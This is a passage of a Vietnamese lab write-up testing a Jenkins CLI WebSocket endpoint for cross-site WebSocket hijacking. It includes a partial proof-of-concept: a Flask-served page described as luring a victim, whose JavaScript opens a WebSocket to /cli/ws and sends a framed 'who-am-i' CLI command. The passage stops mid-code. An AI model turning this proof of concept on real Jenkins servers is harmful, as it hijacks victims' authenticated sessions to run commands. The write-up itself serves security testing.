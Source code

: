   <img width="1914" height="837" alt="image" src="https://github.com/user-attachments/assets/4a21c563-17cf-4fa8-baf0-2f8f5ba5bbcd" />

  &rarr; Websocket interactions trong WebSocket history trong Burp:

  <img width="1917" height="804" alt="image" src="https://github.com/user-attachments/assets/0dfb02c8-3b22-4065-aada-d87236d004c2" />

  &rarr; Request WebSocket mà Burp bắt được:

  <img width="1919" height="803" alt="image" src="https://github.com/user-attachments/assets/ef30e5d6-3339-42cc-913f-7fad8f4ed9fe" />

  Kết quả thấy được `GET /cli/ws HTTP/1.1` → đây là WebSocket upgrade request tới endpoint CLI (/cli/ws). Ngoài ra, ta cũng thấy dược rằng Jenkins phiên bản này đang cho phép kết nối      giao tiếp Websockets bằng cách sử dụng `ws` thay vì `wss` &rarr; đây là chỗ chứa nguy cơ lỗ hổng rất cao.

  Điểm đặc biệt ở đây là handshake được chấp nhận (HTTP/1.1 101 Switching Protocols) dù không thấy token CSRF hay biện pháp chống CSWSH rõ ràng nào khác.

  Ngoài ra request có sử dụng header Authorization chứa Basic auth (base64), để gửi _session/auth credential_ trong handshake. Tuy nhiên, ta có thể thử test bypass bằng cách gửi request   với session cookie (và/hoặc remember me cookie) mà ta sẽ thực hiện cross-site   với nạn nhân vì đây là request HTTP GET Upgrade — browser sẽ gửi cookie tự động cho cùng domain (trong trường hợp server không validate origin).

  Do đó ta sẽ test request WebSocket handshake này của Jenkins là server có thực hiện validate header `Origin` trong request và từ đó check có bị cross-site hijacking không (CSWSH)?

  Thực hiện tạo một web page local HTML nhúng JS chạy trên port 5000 với mục đích thực hiện lừa nạn nhân click truy cập trang dẫn, source code như sau:

  ```html
  from flask import Flask, render_template_string

  app = Flask(__name__)
  
  @app.route('/')
  def index():
      # Define the HTML page with embedded JavaScript
      html_content = """
      <!DOCTYPE html>
      <html lang="en">
      <head>
          <meta charset="UTF-8">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>WebSocket Test</title>
          <script>
              // Set the WebSocket URL and origin
              const url = "ws://localhost:8080/cli/ws";
  
              // Create the first WebSocket connection
              const ws1 = new WebSocket(url);
              
              ws1.binaryType = 'arraybuffer';
              
              ws1.onopen = function() {
                  console.log("WebSocket Connected");
                  const command = new TextEncoder().encode("who-am-i");
                  console.log(command);
  
                  // Define the start and end frames
                  const start = new Uint8Array([0x00, 0x00, 0x08]);
                  const end = new Uint8Array([0x02, 0x00, 0x05, 0x55, 0x54, 0x46, 0x2d, 0x38, 0x01, 0x00, 0x05, 0x65, 0x6e, 0x5f, 0x55, 0x53]);
  
                  // Combine the frames
                  const commandFrame = new Uint8Array(start.length + command.length + end.length);
                  commandFrame.set(start);
  ```